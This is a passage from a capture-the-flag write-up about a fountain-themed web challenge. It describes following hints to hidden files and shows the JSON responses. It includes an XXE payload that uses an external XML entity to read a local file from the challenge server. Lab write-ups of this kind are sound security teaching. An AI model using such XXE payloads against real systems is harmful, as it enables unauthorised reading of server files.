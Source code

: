 When we send it over the console, we get the response
``` json
{
    "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
    "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```
### Stage 4: Following lots of links
Fetching that image (https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png) shows a picture of a folder with text "x_phial_pholder_2022" and a paper peeking out. The corner of the paper shows "bluering.txt", "redring.txt". 
![Pasted image 20230105000251](images/Pasted%20image%2020230105000251.png)

We can try to fetch bluering.txt and redring.txt next (from this point I'll just show the body element for the XML, the request structure stays the same):. 
```javascript
// Requesting bluering.txt - update file value if you want redring.txt
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/bluering.txt' >]> <root><imgDrop>&xxe;</imgDrop><who>princess</who><reqType>xml</reqType></root>",
...
```
but we just get some chitchat about rings which isn't helpful. 
```
redring.txt
{
    "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
    "droppedOn": "none",
    "visit": "none"
}
```
```
bluering.txt
{
    "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
    "droppedOn": "none",
    "visit": "none"
}
```
### Stage 5: Heigh Ho Silver
